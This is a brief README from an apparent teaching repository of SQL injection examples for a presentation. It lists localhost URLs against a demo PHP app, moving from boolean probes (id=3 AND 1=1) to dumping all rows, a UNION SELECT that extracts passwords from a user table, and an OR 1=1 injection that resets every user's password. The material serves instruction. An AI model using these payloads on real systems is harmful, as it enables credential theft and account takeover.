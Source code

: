 sql-injection-examples
======================

Few examples of sql injection for an upcoming presentation on the topic.

### Normal access
http://localhost/sql-injection-example/basic.php?id=1

### If this works, the app may be vulnerable
http://localhost/sql-injection-example/basic.php?id=3 AND 1=1

### Can I print more users then?
http://localhost/sql-injection-example/basic.php?id=2 OR id=3

### Can I get them all?
http://localhost/sql-injection-example/basic.php?id=2 OR id is not null

### Uhm... so can I get their password? --> you need to know that the table is called user
http://localhost/sql-injection-example/basic.php?id=2 union select password from user;

### Updating of password
http://localhost/sql-injection-example/chg_pwd.php?id=2 OR 1=1&pwd="d8578edf8458ce06fbc5bb76a58c5ca4"





